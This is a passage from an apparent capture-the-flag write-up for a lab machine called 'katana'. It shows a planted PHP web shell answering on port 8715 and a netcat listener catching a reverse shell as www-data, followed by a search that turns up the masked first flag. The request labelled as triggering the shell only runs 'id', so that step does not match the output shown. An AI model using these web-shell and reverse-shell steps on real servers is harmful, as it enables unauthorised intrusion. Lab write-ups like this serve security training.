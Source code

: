 ```http
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 54

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> The shell is stored on the web server on port `8715`!
{: .prompt-info }

---

# post exploitation

## reverse shell
### start listener on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

### trigger reverse shell
```http
GET /katana_shell.php?c=id HTTP/1.1
Host: 192.168.214.83:8715
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=b3vuugbfm4fr4iq79n2fp4tvkt
Connection: close
```

### catch connection from target
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.214.83: inverse host lookup failed: Unknown host
connect to [192.168.49.214] from (UNKNOWN) [192.168.214.83] 49162
bash: cannot set terminal process group (425): Inappropriate ioctl for device
bash: no job control in this shell
www-data@katana:/opt/manager/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## get the first flag
```bash
www-data@katana:/$ find . -name local.txt
find . -name local.txt
./var/www/local.txt
www-data@katana:/$ cat ./var/www/local.txt
cat ./var/www/local.txt
6******************************9
```
